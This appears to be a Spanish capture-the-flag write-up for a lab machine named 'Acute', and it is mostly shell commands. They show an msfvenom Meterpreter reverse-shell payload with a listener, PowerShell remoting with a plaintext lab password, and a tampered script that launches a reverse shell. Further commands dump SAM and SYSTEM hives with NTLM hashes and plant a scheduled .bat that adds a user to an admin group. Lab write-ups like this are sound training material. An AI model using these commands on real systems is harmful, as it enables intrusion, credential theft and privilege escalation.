 ```yaml
---
layout: post
title: Acute
image: /assets/img/blog/jj-ying.jpg
accent_image: 
  background: url('/assets/img/blog/jj-ying.jpg') center/cover
  overlay: false
accent_color: '#ccc'
theme_color: '#ccc'
description: >
  Version 9.1 provides minor design changes, new features, and closes multiple issues.
invert_sidebar: true
---
```


# Acute

Lo más relevante de esta máquina fue 

pudimos usar `exiftools` para poder ver los metadatos del archivo encontrado en la web

```shell 
exiftools document.docx
```

Ganamos acceso a la máquina y usamos metaexploit para poder user `screenshare`

```shell
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.16.8 LPORT=443 -f exe -o msf.exe

[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST 10.10.10.10
set LPORT 443

```

Tenemos una constraseñas del usuari imonk, procedemos a utilizar pscredentials

```shell
$passwd = ConvertTo-SecureString 'W3_4R3_th3_f0rce' -AsPlaintext -Force
$cred = New-Object System.Management.Automation.PSCredential('acute\imonks',$passwd)
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {whoami}
```

Obteniendo un script que podemos manipular, podemos modificarlo para entablarnos una reverse shell, utilizamos el mismo que teníamos en la carpeta Utils. 

```shell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {((Get-Content C:\Users\imonks\Desktop\wm.ps1 -Raw) 
-Replace 'Get-Volume','cmd.exe /c C:\Utils\shell.exe') | Set-Content -Path C:\Users\imonks\Desktop\wm.ps1}
```

Ganamos acceso como otro usuario, podemos hacer lo siguiente ya que está dentro del grupo administradores, podemos intentar obtener los hashes de los usuarios con 
`secretsdump`

```shell
reg save HKLM\SAM sam.backup
reg save HKLM\SYSTEM system.backup
```

Incluso con metasploit podremos obtener los hashes y podemos intentar crackearlos para obtener la contraseña.

```shell
hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:24571eab88ac0e2dcef127b8e9ad4740:::
```

Con la contraseña podemos tener acceso a otro usuario por lo que revisando la máquina, vemos que hay un archivo en program files
que indica que cada 5 min ejecuta el archivo .bat, con Set-Content podemos crearnos un arcbivo asignando a nuestro usuario al grupo de domain_admins, utilizamos Siteadmin porque según la desripción
este grupo tiene los privilegios del grupo domain admins.

![imagen1](/assets/img/blog/acute1.jpg)

```shell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {type C:\PROGRA~1\keepmeon\keepmeon.bat}
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {Set-Content C:\PROGRA~1\keepmeon\pwned.bat -Value 'net group Site_Admin awallace /domain /add'}
```

